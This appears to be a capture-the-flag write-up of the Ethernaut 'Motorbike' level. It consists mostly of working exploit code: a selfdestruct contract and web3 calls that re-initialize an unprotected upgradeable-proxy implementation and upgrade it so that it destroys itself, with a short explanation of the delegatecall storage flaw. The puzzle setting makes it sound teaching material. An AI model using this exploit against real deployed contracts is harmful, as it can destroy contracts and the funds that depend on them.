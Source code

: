 ```javascript
pragma solidity ^0.6.0;

contract MotorBikeAttack {
    function destroy() public {
        selfdestruct(tx.origin);
    }
}

```

Deploy the above contract to get `destroy_address`.

```javascript
engine_addresss_with_padding = await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc") // that's the proxy location defined in the standard.

engine_address = engine_addresss_with_padding.slice(26, 66); // The last 20 bytes (it is left zero padded)

let self_destruct_contract_address = destroy_address

await sendTransaction({
	from: player, 
	to: engine_address, 
	data: web3.eth.abi.encodeFunctionCall({
	    name: 'initialize',
	    type: 'function',
	    inputs: []
	}, [])
});

await sendTransaction({
	from: player, 
	to: engine_address, 
	data: web3.eth.abi.encodeFunctionCall({
	    name: 'upgradeToAndCall',
	    type: 'function',
	    inputs: [{
	        type: 'address',
	        name: 'newImplementation'
	    },{
	        type: 'bytes',
	        name: 'data'
	    }]
	}, 
	[
		self_destruct_contract_address, 
	   	web3.eth.abi.encodeFunctionCall({
    		name: 'destroy',
		    type: 'function',
		    inputs: []
		}, [])
	])
});
```

This works because `initialize` was called using delegatecall, so it was actually using the proxy's storage, which means the Engine is not properly initialized. So, we can exploit it by initializing it again and setting our address as the upgrader, then just upgrade the underlying implementation. 

